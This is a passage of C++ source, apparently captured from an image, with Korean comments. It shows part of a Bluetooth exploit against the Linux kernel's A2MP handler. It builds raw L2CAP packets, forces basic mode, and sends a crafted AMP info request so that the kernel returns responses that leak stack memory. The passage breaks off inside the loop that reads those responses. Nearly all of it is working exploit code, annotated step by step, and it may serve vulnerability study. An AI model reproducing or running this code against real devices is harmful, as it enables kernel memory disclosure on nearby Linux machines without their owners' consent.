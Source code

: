 ```c++
  struct {
    l2cap_hdr hdr;
  } packet1 = {0};
  packet1.hdr.len = htobs(sizeof(packet1) - L2CAP_HDR_SIZE);
  packet1.hdr.cid = htobs(AMP_MGR_CID);
  hci_send_acl_data(hci_socket, hci_handle, &packet1, sizeof(packet1));

  /*
  두 번째 통신
   - L2CAP 통신 설정
  */
  printf("[*] Configuring to L2CAP_MODE_BASIC...\n");
  struct {
    l2cap_hdr hdr;
    l2cap_cmd_hdr cmd_hdr;
    l2cap_conf_rsp conf_rsp;
    l2cap_conf_opt conf_opt;
    l2cap_conf_rfc conf_rfc;
  } packet2 = {0};
  packet2.hdr.len = htobs(sizeof(packet2) - L2CAP_HDR_SIZE);
  packet2.hdr.cid = htobs(1);

  packet2.cmd_hdr.code = L2CAP_CONF_RSP;
  packet2.cmd_hdr.ident = 0x41;
  packet2.cmd_hdr.len = htobs(sizeof(packet2) - L2CAP_HDR_SIZE - L2CAP_CMD_HDR_SIZE);

  packet2.conf_rsp.scid = htobs(AMP_MGR_CID);
  packet2.conf_rsp.flags = htobs(0);
  packet2.conf_rsp.result = htobs(L2CAP_CONF_UNACCEPT);

  packet2.conf_opt.type = L2CAP_CONF_RFC;
  packet2.conf_opt.len = sizeof(l2cap_conf_rfc);
  packet2.conf_rfc.mode = L2CAP_MODE_BASIC; // mode를 l2cap 기본으로 지정
  hci_send_acl_data(hci_socket, hci_handle, &packet2, sizeof(packet2));

  /*
  세 번째 통신
   - 악성 AMP 패킷 전송

  - https://code.woboq.org/linux/linux/net/bluetooth/a2mp.c.html#a2mp_chan_recv_cb
  */
  printf("[*] Sending malicious AMP info request...\n");
  struct {
    l2cap_hdr hdr;
    amp_mgr_hdr amp_hdr;
    amp_info_req_parms info_req;
  } packet3 = {0};
  packet3.hdr.len = htobs(sizeof(packet3) - L2CAP_HDR_SIZE);
  packet3.hdr.cid = htobs(AMP_MGR_CID);
  packet3.amp_hdr.code = AMP_INFO_REQ; // a2mp_getinfo_req() 로직으로 유도
  packet3.amp_hdr.ident = 0x41;
  packet3.amp_hdr.len = htobs(sizeof(amp_info_req_parms));
  packet3.info_req.id = 0x42; // !hdev 가 참이 되어 if문 내로 분기하도록 유도
  hci_send_acl_data(hci_socket, hci_handle, &packet3, sizeof(packet3));



  /*
  스택 데이터가 포함된 응답값 획득
  */
  // Read responses
  for (int i = 0; i < 64; i++) {
    char buf[1024] = {0};
```